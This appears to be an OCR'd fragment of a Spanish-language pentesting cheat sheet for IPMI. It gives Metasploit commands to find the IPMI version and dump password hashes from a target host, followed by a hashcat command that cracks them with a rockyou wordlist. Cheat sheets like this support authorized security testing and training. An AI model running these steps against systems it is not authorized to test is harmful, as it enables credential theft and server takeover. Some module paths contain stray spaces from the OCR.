 | msfconsole<br>msf6 > use auxiliary/ scanner/ipmi/ipmi_version<br>msf6> show options<br>msf6> set RHOSTS 1.2.3.4<br>run | Escaneo de nmap para averiguar versión IPMI.<br>Ojo: versión 2 IPMI hacer escaneo con msfconsole: use auxiliary/scanner /ipmi/ipmi_dumphashes |                                                                     |
| msfconsole<br>msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes <br>msf6 > set rhosts 1.2.3.4<br>msf6 > show options   | Escaneo avanzado con msfconsole y ipmi_dumphases para obtener hashes de contraseñas.                                                          |                                                                     |
| hashcat -m 7300 -a 0 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt                            | Crackear un HASH IPMI. El formato del archivo hash.txt tiene que ser del tipo  "hash1:hash2"                                                  |                                                                     |

